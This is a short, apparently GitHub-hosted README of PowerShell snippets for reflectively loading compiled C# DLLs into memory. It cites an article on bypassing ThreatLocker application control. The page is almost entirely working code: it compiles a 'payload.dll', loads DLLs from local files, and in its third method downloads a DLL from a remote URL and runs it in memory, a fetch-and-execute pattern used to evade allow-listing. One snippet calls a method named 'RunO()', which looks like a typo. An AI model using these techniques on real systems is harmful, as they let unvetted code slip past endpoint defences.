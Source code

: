 # Refletively load C# DLLs via PowerShell  

Based on https://ruptura-infosec.com/hack-of-the-month/bypassing-threatlocker-with-powershell/  

Add C Sharp Compiler to path
```powershell  
[System.Environment]::SetEnvironmentVariable("Path", $env:Path + ";C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\MSBuild\Current\Bin\Roslyn\", [System.EnvironmentVariableTarget]::Machine)
```  

Compile DLL from .cs    
```powershell  
csc /target:library /out:payload.dll test.cs
csc /target:library /out:get-sec-history.dll get-sec-history.cs
```  

Load DLL reflectively in PowerShell POC
```powershell  
$currentDir = Get-Location
$bytes = [IO.File]::ReadAllBytes("$currentDir\payload.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$instance = $assembly.CreateInstance("ProgramNamespace.Program")
$instance.RunO()
```  

Load Dll method 1 (Invoke method from local file)  
```powershell  
# Get the current directory
$currentDir = Get-Location

# Load the DLL into memory
$bytes = [IO.File]::ReadAllBytes("$currentDir\get-sec-history.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$type = $assembly.GetType("SecurityTools.DefenderHistory")

# Invoke the static method GetProtectionHistory and display the output
$output = $type.GetMethod("GetProtectionHistory").Invoke($null, $null)
Write-Output $output

```  

Load DLL method 2 (Create instance from local file)  
```powershell  
# Get the current directory
$currentDir = Get-Location

# Load the DLL from the current directory
$bytes = [IO.File]::ReadAllBytes("$currentDir\get-sec-history.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of DefenderHistory class and invoke the method
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")
$output = $instance.GetProtectionHistory()
Write-Output $output
```  

Load DLL method 3 (Create instance from web request)  
```powershell  
# URL of the DLL on the web server
$url = "https://github.com/timsonner/load-cs-dll-from-powershell/raw/refs/heads/master/get-sec-history.dll"

# Download the DLL as bytes
$bytes = (New-Object Net.WebClient).DownloadData($url)

# Load the assembly directly from the byte array
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")

# Invoke the GetProtectionHistory method
$output = $instance.GetProtectionHistory()

# Display the output
Write-Output $output

```  
